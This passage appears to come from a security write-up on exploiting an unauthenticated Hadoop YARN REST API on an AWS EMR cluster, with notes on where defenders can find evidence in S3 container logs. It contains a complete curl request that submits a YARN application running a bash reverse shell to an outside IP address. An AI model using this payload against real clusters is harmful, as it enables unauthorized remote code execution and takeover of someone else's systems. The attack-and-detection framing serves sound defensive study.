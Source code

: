 ```bash
curl --request POST 'PRIMARYHOST:8088/ws/v1/cluster/apps' \
--header 'Accept: application/json' \
--header 'Content-Type: application/json' \
--data-raw '{
 "max-app-attempts":2,
 "am-container-sepc":{
  "commands":{
   "command":"/bin/bash -c "bash -i >& /dev/tcp/3.94.211.164/6767 0>&1""
   }
 },
 "application-id":"application_1590702911576_0016",
 "application-type":"YARN",
 "application-anem":"yupyup"
}'
```



Once the curl request is made to run the application we can expect a 202 response with no data. A 202 response means the application run request was submitted successfully. It DOES NOT mean the application ran successfully. If there are any configuration errors or other errors the response is still going to be a 202. Just because the applicaiton was submitted successfully does not mean that it will be processed and executed succesfully.

In the web GUI at `http://PRIMARYHOST:8088/cluster` we see that the application ID we called to run will now have an execution history. The user will be `dr.who` because we created and called the application without authenticating. The other columns have details about various things such as the start times, launch times, etc. Even though the 'State' and 'FinalStatus' columns may say failed the shell code within the application was probably ran. 

![application_run](images/application_run.png "img-fluid")

---

### Logging

As an attacker we can confirm if this worked by checking to see if we have a shell from one of the nodes within the cluster, but how can we as defenders tell if the execution was successful? Good news, all of the activity above is logged. By digging into the logs a bit we should be able to tell what commands were executed and where they were executed at.

When we setup the cluster we enabled logging to a S3 folder. All of our applications will log to this folder. If everything was left to the defaults the logging folder will be something similar to this: `s3://aws-logs-ACCOUNT-us-east-1/elasticmapreduce/CLUSTER ID`. Within this folder we can pull container logs out for each application. They'll be in a subfolder similar to this `/containers/application_1590702911576_0016/container_1590702911576_0016_02_000001/launch_container.sh.gz`
